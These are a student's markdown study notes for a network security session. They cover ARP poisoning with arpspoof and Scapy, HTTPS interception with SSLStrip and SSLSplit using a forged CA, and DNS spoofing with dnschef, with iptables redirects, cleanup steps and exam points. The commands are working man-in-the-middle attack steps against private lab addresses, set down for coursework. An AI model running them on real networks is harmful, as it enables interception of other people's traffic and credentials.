# Network & Communication Security — Session 06
## ARP Poisoning · SSLsplit · DNS Spoofing

---

## ARP — How It Normally Works

ARP (Address Resolution Protocol) translates IP addresses to MAC addresses on a local network. Every device maintains an **ARP table** (IP → MAC cache).

**Normal ARP flow:**
1. Host A wants to send to Host B but doesn't know B's MAC
2. A broadcasts ARP query to `FF:FF:FF:FF:FF:FF` — "Who has IP 192.168.x.x?"
3. B responds with its MAC address (unicast reply to A)
4. A caches the entry in its ARP table (soft state — expires after a timeout)

> ARP is **plug-and-play**: hosts build tables automatically, no admin intervention.

---

## ARP Poisoning (Spoofing)

ARP has **no authentication** — any host can send an ARP reply claiming any IP-to-MAC mapping. A host that receives a reply will accept and cache it, even if it never sent a request.

**Attack:**
1. Attacker sends spoofed ARP replies to both the victim and the router
2. Victim's ARP table now maps the router's IP → Attacker's MAC
3. Router's ARP table now maps the victim's IP → Attacker's MAC
4. All traffic between victim and router now flows **through the attacker**
5. This is a **Man-in-the-Middle (MitM)** attack

---

## Setting Up ARP Poisoning with arpspoof

### Install
```bash
sudo apt-get update
sudo apt-get install dsniff      # includes arpspoof
```

### Enable IP forwarding (required — Kali must act as a router)
```bash
sudo nano /etc/sysctl.conf
# Uncomment or add:
net.ipv4.ip_forward = 1

sudo sysctl -p                   # apply immediately without reboot
```

Without IP forwarding, Kali drops the forwarded packets and the victim loses internet — visible and obvious.

### Run ARP poisoning (two terminals)
```bash
# Terminal 1 — tell victim that router is at your MAC:
sudo arpspoof -i eth0 -t 192.168.238.131 192.168.238.2

# Terminal 2 — tell router that victim is at your MAC:
sudo arpspoof -i eth0 -t 192.168.238.2 192.168.238.131

# Or both directions at once:
sudo arpspoof -i eth0 -t 192.168.238.131 -r 192.168.238.2

```

### Verify (on victim)
```bash
sudo arp -a     # check ARP table before and after — the MAC for router should change
```





---

## ARP Poisoning with Scapy

```python
from scapy.all import *
import time

# ARP packet structure:
ls(ARP)

# Basic ARP packet (op=2 = reply/gratuitous):
pkt = Ether(dst="victim_mac") / ARP(op=2, pdst="victim_ip", hwdst="victim_mac",
                                     psrc="router_ip", hwsrc="attacker_mac")
sendp(pkt, verbose=0)
```









**Key ARP fields:**
| Field | Meaning |
|---|---|
| `op=1` | ARP request (who has?) |
| `op=2` | ARP reply (I have — used for poisoning) |
| `psrc` | IP address you're claiming to own |
| `hwsrc` | MAC address you're claiming |
| `pdst` | Target IP (who you're lying to) |
| `hwdst` | Target MAC (who you're sending the lie to) |

Use `sendp()` (layer 2) not `send()` because ARP lives at layer 2 — wrap in `Ether()`.

**Continuous poisoning loop:**
```python
while True:
    sendp(pkt, verbose=0)
    time.sleep(1)     # ARP tables expire — keep overwriting them
```

---

## HTTPS Interception — The Problem

After getting MitM position, HTTP traffic is visible in plaintext. HTTPS is encrypted using TLS. Two approaches:

| Approach | Tool | How it works |
|---|---|---|
| Downgrade to HTTP | SSLStrip | Rewrites HTTPS links to HTTP between victim and attacker |
| Forge certificate | SSLSplit / Burp | Acts as proxy — presents fake cert to victim, real cert to server |



---

## TLS Handshake (How HTTPS Works)

TLS sits **between TCP and the application layer** — it is not a transport protocol itself.



**Simplified TLS 1.3 flow:**
1. Client sends `ClientHello` — list of supported ciphers + public key (DH algorithm)
2. Server sends `ServerHello` + **server certificate** + signature
3. Client validates certificate (checks CA signature chain)
4. Both derive the same symmetric session key using DH
5. All further communication is encrypted with that symmetric key

The certificate is what proves identity — if you can forge a trusted cert, you can intercept.

---

## Setting Up Traffic Redirection (iptables)

```bash
# Redirect HTTP and HTTPS traffic to local proxy ports:
sudo iptables -t nat -A PREROUTING -p tcp --dport 80  -j REDIRECT --to-ports 8080
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
```

Add `! -d <kali_ip>` to avoid redirecting traffic destined for Kali itself:
```bash
sudo iptables -t nat -A PREROUTING -p tcp --dport 80  ! -d 192.168.238.129 -j REDIRECT --to-ports 8080
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 ! -d 192.168.238.129 -j REDIRECT --to-ports 8443
```

The `!` means "not" — only redirect when Kali is **not** the destination.

---

## SSLStrip -- lidt ældre

SSLStrip **downgrades HTTPS to HTTP** between victim and attacker. The attacker maintains HTTPS with the real server.

```
Victim  ←—HTTP——→  Attacker  ←—HTTPS——→  Server
```

```bash
sudo sslstrip -a -l 8080
```

Traffic is logged to `sslstrip.log`. Works on sites that don't enforce HSTS.

---

## SSLSplit

SSLSplit **proxies HTTPS with a forged certificate** — the victim sees an "HTTPS" connection but the cert is signed by the attacker's CA.

### Generate CA key and cert
```bash
sudo openssl genrsa -out ca.key 4096
sudo openssl req -new -x509 -days 45 -key ca.key -out ca.crt
```

### Create directories
```bash
sudo mkdir /tmp/sslsplit
sudo mkdir sniff_data
```

### Start SSLSplit
```bash
sudo sslsplit -D -l connections.log -j /tmp/sslsplit -S sniff_data \
  -k ca.key -c ca.crt \
  https 0.0.0.0 8443 \
  tcp 0.0.0.0 8080
```

The victim will see a certificate warning unless the CA cert is installed as trusted on their machine.




---

## DNS Spoofing

DNS resolves domain names to IPs. If you control what DNS responses the victim receives, you control where their browser goes.

**Attack flow with dnschef:**
1. ARP poisoning already in place (MitM position)
2. Redirect victim's DNS queries to your local listener via iptables
3. dnschef responds to all queries with your IP
4. Victim's browser goes to your server instead of the real one

### iptables — redirect DNS traffic
```bash
sudo iptables -t nat -A PREROUTING -p udp --dport 53 -j REDIRECT --to-ports 5353
```

DNS uses UDP port 53. Redirect to local port 5353.

### Start dnschef
```bash
dnschef --fakeip=192.168.238.129 --interface=0.0.0.0 -p 5353
```

All DNS queries now return `192.168.238.129` (your Kali IP).

### Start a web server on Kali
```bash
sudo service apache2 start
```

Now when the victim browses any domain, they land on your Apache page.

### Why DNS spoofing can fail

The victim receives **two DNS responses**:
1. The legitimate reply from the real DNS server (forwarded through Kali)
2. Your spoofed reply from dnschef

Whichever arrives first wins. The PREROUTING rule only intercepts **incoming** traffic from the victim — the real DNS server's reply to Kali is not redirected, it arrives directly.

---

## Stopping / Cleaning Up

```bash
# Flush all iptables rules:
iptables -t nat -F
iptables -F

# Kill arpspoof: Ctrl+C in both terminals
# Kill dnschef: Ctrl+C
```

---

## Defensive Use — SSL Inspection in Organisations

This same technique (SSLSplit/Burp + trusted cert) is used legitimately by organisations to **inspect encrypted traffic** for malware and data exfiltration:

1. Generate a CA cert
2. Deploy the cert to all company devices as a **trusted CA** (via Group Policy / MDM)
3. Route all HTTPS through the proxy
4. Proxy decrypts, scans, re-encrypts — user sees no warning

> This is why corporate laptops often show internal CA certs in their trust store.





---

## iptables Processing Flow

| Chain | When it applies |
|---|---|
| PREROUTING | Immediately on arrival — before routing decision |
| INPUT | Packets destined for the local machine |
| FORWARD | Packets being routed through the machine |
| OUTPUT | Locally generated packets |
| POSTROUTING | After routing decision — just before going out |

Use `PREROUTING` to intercept and redirect traffic. Use `OUTPUT` to block self-generated packets (e.g. RST blocking for SYN flood).

---

## Exam Key Concepts

- **ARP has no authentication** — replies are accepted without verification → basis for all ARP-based MitM attacks
- **IP forwarding must be enabled** on the attacker machine or the victim loses connectivity (obvious DoS)
- **Scapy ARP poisoning**: `op=2` (reply), use `Ether()/ARP()`, send with `sendp()`, loop with sleep
- **SSLStrip** downgrades HTTPS → HTTP; **SSLSplit** proxies HTTPS with forged cert
- **TLS cert chain**: client validates server cert against trusted CAs — installing attacker's CA as trusted defeats this
- **iptables PREROUTING** redirects traffic to local ports; `!` negates destination to avoid self-redirect loop
- **DNS spoofing** requires MitM position first; race condition with legitimate DNS response is a common failure point
- **HSTS** (HTTP Strict Transport Security) defeats SSLStrip — browser refuses HTTP for that domain
- **Defensive SSL inspection**: same tools used legitimately with organisation-deployed trusted CA certs


LOOK AT HSTS if slide 7 exercise fucked